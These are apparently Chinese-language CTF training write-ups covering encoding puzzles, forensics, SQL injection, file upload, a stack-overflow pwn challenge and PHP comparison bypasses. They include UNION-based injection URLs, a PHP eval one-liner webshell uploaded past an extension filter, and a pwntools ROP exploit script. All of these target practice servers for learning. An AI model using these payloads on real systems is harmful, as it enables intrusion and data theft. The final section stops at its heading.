# CUC CTF 寒假集训WP集
## 1.13 新手, MISC, 签到
### 一.404notfound
题目是一个图片，用010editor打开之后直接找到flag

### 二.What_1s_BASE
下载了一个txt文件

看起来像是base64，再加上题目what is base的提示，尝试base64解码

找到flag
### 三.hardMisc
题目是一个图片，用010editor打开之后翻到最后看到疑似base64编码

去解码得到flag

### 四.Hex？Hex！
下载了一个txt文件

根据编码特征+题目提示去hex解码

### 五.Is this only base?
txt文件

看起来是base64，但==不在最后，疑似是置换密码，提示了数字23，所以尝试n=23的栅栏解密

正好把==移到了最后，base64解码

我们看到ZQC明显是CTF的k=23的凯撒密码，解密后拿到flag

### 六.就当无事发生

题目中说数据没脱敏就发出去了，还好没有部署，看到网站使用github开发，说明存在git泄露，我们是可以通过github的commit记录找到敏感数据，即flag。

打开题目中的网站，在关于界面有开发者github的跳转页面，前往他的github

去他的Repositories中找到这个网站的仓库

看看他的Committ记录

由于这是2023年的LitCTF的题，所以这个Commit记录肯定是23年之前的，最后在图示commit记录中找到了flag


## 1.15 进阶, MISC, Programming
### 一.寻找黑客的家
大黑客Mikato期末结束就迫不及待的回了家，并在朋友圈发出了“这次我最早”的感叹。那么你能从这条朋友圈找到他的位置吗？
moectf{照片拍摄地市名区名路名} (字母均小写)<br>
例如：西安市长安区西沣路：{xian_changan_xifeng}


看到最显眼的汉明宫，去搜索

发现第一个的电话号码符合末尾的33085，直接搜索清泉路星光城购物中心

发现在广东省深圳市龙华区清泉路<br>
提交{shenzhen_longhua_qingquan}
### 二.zip套娃

看起来是真加密，直接爆破

用密码1235解压，打开txt


然后用“1234567???”的掩码格式去爆破fl<br>
***
注：掩码攻击‌是一种密码破解方法，它利用密码的部分已知信息，定义一个密码格式或模板，进行破解
***

用1234567qwq解压fl

同样的txt，但这次掩码爆不出来fla，去010editor看看

明显的伪加密，把这一位01改为00后保存就可以打开了

### 三.最终试炼hhh

是一个没有后缀名的文件，直接用记事本打开也是乱码,用010editor打开

文件头没有特征，翻到最后发现文件尾是04 04 4B 50，即ZIP文件头的逆序，
推测该文件是一个zip文件的逆序，编写python程序
```python
my_input = open('./flag', 'rb')  # 'wb' :（write binary）,文件内容以字节的形式读取
input_all = my_input.read()  # 这是一个包含文件所有字节内容的 bytes 对象
my_reversed = input_all[::-1]
output = open('./flag.zip', 'wb')
output.write(my_reversed)
my_input.close()
output.close()
```
***
语法注释:<br>
[start:stop:step]，其中 step 表示步长。<br>
[::-1]：这是一个简便的方式，用于反转序列。具体来说，它从序列的末尾开始，以步长 -1 逐步取值，直到序列的开头。
***
输出了一个zip文件，需要密码，再用010打开查看

这里是00，说明是伪加密，到下一段将90修改为00

解压出来一个pdf

猜测可能用这个pdf文件做了隐写，用wbStego查看隐写

找到flag

### 四.misc999

表中一共62个字符，编写base62解码代码
***
**在编写python之前，先解释一些代码中用到的原理：**<br>
- 1.**什么是base62:**
Base62 编码的核心思想是将整数按位拆解，每一位对应 Base62 字符集中的一个字符。
通过除以 62 取得商和余数，余数对应的字符就是编码结果的一部分。
Base62 编码的用途通常是将二进制数据或较大数字编码成可打印字符，便于传输和存储。
- 2.**Base62 编码转换的基本原理:**
Base62 编码使用了 62 个字符（在本例中是 "9876543210qwertyuiopasdfghjklzxcvbnmMNBVCXZLKJHGFDSAPOIUYTREWQ"）
来表示一个整数。每一个字符可以视为一个“基数”62的“位”，这意味着每个字符代表一个数值，并且每个字符的位置决定了其相对的权重。
- 3.**mapper字典：**
字符集中的每个字符映射到一个唯一的数字
- 4.**long_to_bytes:**
将整数 n 转换为一个字节串，它的基本思想是：将整数 n 表示为一个无符号的二进制序列。
按照字节（8位）划分该二进制序列。
对于较小的整数，long_to_bytes 可能只返回一个字节。
对于较大的整数，返回的字节数组会有多个字节，包含整数的完整二进制表示。
***
```python
from Crypto.Util.number import long_to_bytes

# 创建字符到索引的映射
mapper = {c: i for i, c in enumerate("9876543210qwertyuiopasdfghjklzxcvbnmMNBVCXZLKJHGFDSAPOIUYTREWQ")}

# 初始化整数
n = 0

# Base62 编码的字符串
encoded_str = "7dFRjPItGFkeXAALp6GMKE9Y4R4BuNtIUK1RECFlU4f3PomCzGnfemFvO"

# 将 Base62 编码的字符串转换为整数
for c in encoded_str:
    if c in mapper:
        n *= 62
        n += mapper[c]
    else:
        raise ValueError(f"Character '{c}' not found in mapper.")

# 将整数转换为字节，并解码为字符串
try:
    decoded_bytes = long_to_bytes(n)
    decoded_str = decoded_bytes.decode('utf-8')
    print(decoded_str)
except UnicodeDecodeError:
    print("解码失败：字节序列不是有效的 UTF-8 编码。")
```

解出flag
### 五.Case64AR
Someone script kiddie just invented a new encryption scheme. It is described as a blend of modern and ancient cryptographic techniques. Can you prove that the encryption scheme is insecure by decoding the ciphertext below?

Ciphertext: OoDVP4LtFm7lKnHk+JDrJo2jNZDROl/1HH77H5Xv

即这是一个融合了现代和古典密码的加密方法需要我们破解，密文具有明显base64特征，结合Case64AR这个名字推测古典密码用的Caesar，猜测是在映射时有和凯撒密码相同原理的偏移，编写代码遍历所有可能的偏移量
```python
import base64

# 标准 Base64 编码表（不包括 '='）
base64_table = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"

# 加密的字符串
enc = 'OoDVP4LtFm7lKnHk+JDrJo2jNZDROl/1HH77H5Xv'

# 遍历所有可能的偏移量
for n in range(64):
    dec = ""  # 用于存储当前偏移量下的 Base64 编码结果

    # 遍历密文中的每个字符
    for char in enc:
        # 找到字符在 Base64 编码表中的索引
        try:
            i = base64_table.index(char)
        except ValueError:
            # 如果字符不在 Base64 编码表中，跳过当前偏移量
            dec = None
            break

        # 计算新的索引，向后移动 offset 位（逆向偏移）
        new_index = (i - n) % 64
        # 根据新的索引找到对应的字符，并加入结果字符串
        dec += base64_table[new_index]

    if dec is None:
        print(f"偏移 {n}: Invalid character encountered")
        continue

    # 添加必要的填充
    padding = '=' * (-len(dec) % 4)
    dec_padded = dec + padding

    try:
        # 尝试解码 Base64，如果成功则打印结果
        flag = base64.b64decode(dec_padded).decode('utf-8')
        print(f"偏移 {n}: {flag}")
    except Exception:
        # 如果 Base64 解码失败（无效编码字符串），跳过
        print(f"偏移 {n}: Invalid Base64 string")
```
最终找到偏移量为50的时候时正确的flag

## 1.17 提高,Web,SQL注入,SSTI
### 一.Sqlmap_boy
打开题目给出的网站

查看网页源代码

发现有提示
```php
<!-- $sql = 'select username,password from users where username="'.$username.'" && password="'.$password.'";'; -->
```
这个代码片段用于生成一个SQL查询字符串，将$username和$password的值插入到查询中，
存在SQL注入漏洞，因为它直接将用户输入的 $username 和 $password 拼接到SQL查询中。
所以在用户名中输入
```
1’” OR 1=1； -- 
```
此时代码变成了
```sql
select username,password from users where username="'1'" OR 1=1; -- '" && password="'.$password.'";;
```
可以直接进入<br>
<br>
接下因为还没学会sqlmap所以用Hackbar手动注入
***
**基本符号：**<br>
%20:URL编码后的空格，防止SQL语法被中断<br>
--+：-- 是SQL的注释符号，后面的部分将被忽略。+ 是URL编码后的空格。
***
分别执行一下代码来判断字段数
```url
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201--+
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,2--+
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,2,3--+
```
到第三个页面才有反应，说明一共有三个字段，且如图显示第2，3个可以被使用

此时我们爆数据库，把2的位置替换成database()，即查看当前在使用的数据库名为moectf

接下来爆表
***
group_concat(table_name)：这是一个MySQL函数，它将当前数据库中所有表的名称连接成一个单一的字符串，结果可能是多个表名一起显示<br>
from information_schema.tables：information_schema 是MySQL的一个系统数据库，包含了关于所有其他数据库的信息。tables 表中包含所有表的名称<br>
where table_schema=database()：仅查询当前数据库中的表（通过 database() 函数获取当前数据库名称）<br>
***
用如下命令查看当前数据库中的所有表
```
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,database(),group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

接下来爆字段，用如下命令列出flag 表中的所有字段名称
```
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,database(),group_concat(column_name) from information_schema.columns where table_name='flag'--+
```

接下来爆字段内容，用如下命令列出flag表中flAg字段的内容
```
http://node5.anna.nssctf.cn:28089/secrets.php?id=-1'%20union%20select%201,database(),group_concat(flAg) from moectf.flag--+
```

拿到flag


## 1.20 新手，MISC，取证，SQL注入
### 一.手机取证_1
现对一个苹果手机进行取证，请您对以下问题进行分析解答。
627604C2-C586-48C1-AA16-FF33C3022159.PNG图片的分辨率是？（答案参考格式：1920x1080）

下载了一个很大的压缩包，解压后有个exe

打开后直接搜索题目要求的图片

找到后将图片导出

导出后查看属性，发现分辨率是360x360
### 二.WS（一）
被入侵主机的IP是？

***
注：Telnet 是一种基于 TCP/IP 协议的网络通信协议，最早用于在网络中实现远程登录功能。通过Telnet协议，用户可以登录到远程主机，并在其上执行命令，就像在本地计算机上操作一样。
默认23端口向远程主机的Telnet服务端发起连接请求
***
用wireshark打开给的pcapng文件

看到向23端口发送消息的时候的目的是192.168.246.28，所以这是被入侵的ip
### 三.网站取证_2
据了解，某网上商城系一团伙日常资金往来用，从2022年4月1日起使用虚拟币GG币进行交易，现已获得该网站的源代码以及部分数据库备份文件，请您对以下问题进行分析解答。
请提交数据库连接的明文密码

下载下来一个名为WWW的php环境，因为要找数据库连接的密码，所以直接去找database相关的配置文件

发现密码是一个叫做my_encrypt()的函数，并且有在文件开头include ("encrypt/encrypt.php");
去找到这个encrypt.php

我们直接配置好php环境然后在这个文件末尾加上
```php
echo my_encrypt();
```
之后运行
***
注意：此处需要检查php版本，mcrypt 扩展是一个用于加密的 PHP 扩展库，但从 PHP 7.2 版本开始，mcrypt 扩展被标记为废弃，并且在 PHP 7.2 之后的版本中已完全移除。
我使用的是 PHP 7.3.4 版本所以报错了，去安装了php5并重新配置之后就好了
***

找到密码
### 四.General Info
Let’s start easy - whats the PC’s name and IP address?
答案使用-连接加上NSSCTF{}格式提交，例如PC名为test，IP为127.0.0.1，提交NSSCTF{test-127.0.0.1}


下载到一个.vmem文件，这题主要是学习Volatility的基本用法，时间主要花在配置工具上（
***
Volatility 是一个开源的内存取证框架，用于对内存镜像进行分析和取证。它通常用于从计算机的内存转储（memory dump）中提取有关系统状态的信息，以帮助在数字取证分析中发现潜在的恶意活动、攻击迹象、隐私泄漏等。
能够从内存镜像（如 .raw、.dmp、.vmem 等格式）中提取出有价值的信息
***
配置好Volatility后，在所在文件夹打开终端<br>
首先查看PC名字，该项在注册表的ControlSet001\Control\ComputerName\ComputerName条目中，在终端输入如下命令来查看
```powershell
python vol.py -f ..\..\OtterCTF.vmem windows.registry.printkey --key "ControlSet001\Control\ComputerName\ComputerName"
```

找到名字为WIN-LO6FAF3DTFE
接下来查看IP,用netscan读取
```powershell
 python vol.py -f ..\..\OtterCTF.vmem netscan
```

找到IP为192.168.202.131<br>
所以得到答案NSSCTF{WIN-LO6FAF3DTFE-192.168.202.131}
## 1.22 进阶，文件上传，文件包含，一句话木马，php伪协议
### 一.easyupload1.0
打开往站，发现要求上传jpg文件（尝试上传别的文件，不可以，这里不做演示）
<br>
思路为上传伪装成jpg的php的一句话木马，检查网站的文件<br>
创建一个php文件，写一个一句话木马
***
一句话木马 是一种体积极小的、功能简化的恶意脚本程序，常用于攻击者在目标服务器上获取控制权或执行恶意操作
***
```php
<?php @eval($_POST['r00ts']);?> 
```

保存为test.php，随后重命名为test.jpg，上传
***
\<?php ... ?\>：PHP 的标准脚本标记，表示这是 PHP 代码块。

@：PHP 中的错误抑制符。如果代码中发生错误（例如未定义的变量），@ 会隐藏这些错误信息。
在这里，@ 被用于抑制 eval() 执行过程中的任何错误提示。

eval()：PHP 中的一个危险函数。它的作用是将传入的字符串当作 PHP 代码执行。

$_POST['r00ts']：通过 HTTP POST 请求获取参数 r00ts 的值。
***
上传test并用burpsuite拦下请求

发送到Repeater后将filename修改为.php后再发送,上传成功

先看看网页的文件夹，用蚁剑添加数据


返回上一级目录发现有一个flag.php

但这并不是正确答案，在这种类型题中还有一个地方可以隐藏数据，就是phpinfo中的Environment，
这里面包含了服务器运行环境相关的变量和配置信息，即出题者可以在这里面存放自定义的数据，所以
我们可以构造一个POST传参，把r00ts的值设为phpinfo();以查看相关信息，构造如下
```http
POST /upload/test.php HTTP/1.1
Host: node4.anna.nssctf.cn:28883
Content-Type: application/x-www-form-urlencoded

r00ts=phpinfo();
```
发出之后即可查看phpinfo，在Environment中找到了flag

## 2.10 新手，reverse，语言逆向，pwn，栈溢出
### 一.test_nc
***
注：网络工具nc（Netcat）常用于网络调试、测试以及数据传输。
***
使用nc连接题目给出的网站
```bash
nc node5.anna.nssctf.cn 20698
```
(注意语法，此处端口前无“:”)<br>
ls一下看看有哪些文件<br>
<br>
发现有一个flag文件，cat一下看看内容，得到答案<br>
<br>
### 二.又是签到！？
***
注：jadx 是 Android 反编译工具，主要用于将 APK、DEX、JAR 等文件反编译为接近原始 Java 代码的可读形式
***
用jadx打开下载的.apk文件后搜索NSSCTF即可找到flag

### 三.level1
下载下来的level1文件夹里包含了一个无后缀文件和一个txt的output文件

用010editor打开无后缀文件

可知该文件为elf文件，因此可以通过反编译查看其内容，用IDA打开得到汇编代码，按F5得到C代码

分析代码：
```C
int main()
{
  int i;
  char ptr[24]; //原文
  for ( i = 1; i <= 19; ++i )//加密
  {
    if ( (i & 1) != 0 )//奇数位
      printf("%ld\n", (unsigned int)(ptr[i] << i));
    else //偶数位
      printf("%ld\n", (unsigned int)(i * ptr[i]));
  }
  return 0;
}
```
编写解密代码
```python
output = [0,198,232,816,200,1536,300,6144,984,51200,570,92160,1200,565248,756,1474560,800,6291456,1782,65536000]
flag_chars = []
for i in range(1, len(output)):
    if i % 2 != 0:
        char_us = output[i] >> i
        flag_chars.append(chr(char_us))
    else:
        char_us = output[i] // i
        flag_chars.append(chr(char_us))
flag = "".join(flag_chars)
print(flag)
```
得到ctf2020{d9-dE6-20c}

### 四.FindanotherWay
这里题目名字的意思就是直接nc不行
<br>
下载给出的文件，没有后缀名，用IDA打开
查看main函数

查看vuln函数

这个gets函数存在栈溢出，s的大小为12，找到可以造成溢出的padding

显然我们的目标是调用这个youfindit，地址为401230
***
调用后门函数的步骤：在 Payload 里加入gadeget：ret或pop rdi ; ret（取决于函数是否包含参数）
来确保栈对齐，避免ROP执行时的崩溃，所以要先溢出缓冲区，用gadget覆盖返回地址，随后写入后门函数地址
***

这里用ROPgadget找到合适的gadget地址，即40101a,此时可以编写代码攻击
```python
from pwn import *
p = remote("node5.anna.nssctf.cn", 23483)

Padding = b'A' * 12 + p64(0)
backdoor = p64(0x401230)
gadget = p64(0x40101a)
payload = Padding + gadget + backdoor
p.sendline(payload)
p.interactive()
```

## 2.12 进阶，弱比较，数组绕过，反序列化
### 一.受不了一点
打开网站后发现php源代码

这段php包含以下几层验证，我们逐层分析：<br>
1.POST请求中是否包含gdou和ctf这两个参数
```php
if(isset($_POST['gdou'])&&isset($_POST['ctf'])){
    $b=$_POST['ctf'];
    $a=$_POST['gdou'];
    #下一层验证
}else{
  echo "别来沾边";
}
```
现在直接访问，POST请求中不包括变量，所以此时返回的文字为“别来沾边”<br>
因此用如下请求可以满足当前要求
```http
POST / HTTP/1.1
Host: node4.anna.nssctf.cn:28923
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded

ctf=1&gdou=2
```
2.判断两个变量的值是否不相等但md5值相等
```php
if($_POST['gdou']!=$_POST['ctf'] && md5($a)===md5($b)){
    #下一层验证
}else{
    echo "就这?";
}
```
此时1和2的md5值并不相等，所以返回的文字为"就这"<br>
这里需要用到数组绕过
***
注：md5() 不支持数组，但 PHP 可能会 隐式转换数组为字符串，因此将两个变量设置为不同的数组，
可能会导致他们被序列化或其他的方式转换后相同，进而得到相同的md5值以绕过检验
***
发送如下请求可以满足这一层验证
```http
POST / HTTP/1.1
Host: node4.anna.nssctf.cn:28923
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded

ctf[]=1&gdou[]=2
```
3.检查是否为特定cookie
```php
if(isset($_COOKIE['cookie'])){
    if ($_COOKIE['cookie']=='j0k3r'){
        #下一层验证
  }
}
else {
  echo '菜菜';
}
```
此时cookie为默认值，因此返回文字为“菜菜”，发送如下修改过cookie的POST请求即可满足验证
```http
POST / HTTP/1.1
Host: node4.anna.nssctf.cn:28923
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Cookie: cookie=j0k3r

ctf[]=1&gdou[]=2
```
4.GET参数验证，对于aaa和bbb这两个参数都需要为114514但又不能相等
```php
if(isset($_GET['aaa']) && isset($_GET['bbb'])){
    $aaa=$_GET['aaa'];
    $bbb=$_GET['bbb'];
    if($aaa==114514 && $bbb==114514 && $aaa!=$bbb){
       #下一层验证（但其实此时已经可以得到正确的flag）
    }else{
        echo "洗洗睡吧";
    }
}else{
    echo "行不行啊细狗";
}
```
刚刚没有这两个get参数，所以返回的文字为“行不行啊细狗”，如果有参数但不满足条件则返回“洗洗睡吧”<br>
在字符串和整数的比较中，字符串会被转化为整数，所以两个参数可以一个为114514a，一个为114514，这样在比较的时候114514a会被自动转化为114514
所以发送如下请求即可获得flag
```http
POST /?aaa=114514&bbb=114514a HTTP/1.1
Host: node4.anna.nssctf.cn:28923
User-Agent: Mozilla/5.0
Content-Type: application/x-www-form-urlencoded
Cookie: cookie=j0k3r
Content-Length: 18

ctf[]=1&gdou[]=2
```

### 二.ez_ez_unserialize
